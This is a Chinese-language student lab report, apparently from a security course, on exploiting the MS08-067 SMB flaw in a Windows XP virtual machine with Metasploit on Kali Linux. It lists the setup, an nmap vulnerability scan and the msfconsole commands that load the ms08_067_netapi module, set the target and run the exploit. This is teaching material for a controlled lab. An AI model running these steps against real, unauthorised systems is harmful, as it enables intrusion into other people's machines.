# 第三次实验

# 题目

使用渗透性测试工具 Metasploit 进行漏洞测试。实验内容如下。

1）安装并配置 Kali (https://www.kali.org)。 

2）从 Kali 操作系统的终端初始化和启动 Metasploit 工具。 

3）使用 Metasploit 挖掘 MS08-067 等漏洞。

## 实验过程

### 1. 安装kali和windows虚拟机





### 2. 安装和初始化Metasploit

- 使用root用户启动postgresql
  - ` service postgresql start`



- 启动msfconsole



- 启动Metasploit
  - 提示` Missing secret_key_base `
  - 退出msfconsole，设置环境变量`SECRET_KEY_BASE`后重试启动

```shell

# 生成密码
openssl rand -hex 32

# 设置环境变量
export SECRET_KEY_BASE="YOUR_GENERATED_HEX_STRING"

# 重新启动
msfdb reinit
```





- 创建新工作区



### 3. 设置Windows XP

- 查看靶机IP
  - `ipconfig`
  - 192.168.122.205



- 关闭防火墙



- 扫描vuln
  - `nmap -script=vlun 192.168.122.205`
  - 发现`ms-08-067`漏洞



- `search ms08-067`



- 启用该攻击模块，并用 options 命令查看设置
  - `use exploit/windows/smb/ms08_067_netapi`



- 设置被攻击机器 RHOSTS 的 IP 地址，并根据其操作设置 target 类型

```shel
set RHOSTS 192.168.122.205
show targets
set target 10
```





### 4. 开始渗透攻击

```shell
exploit

screenshot
```


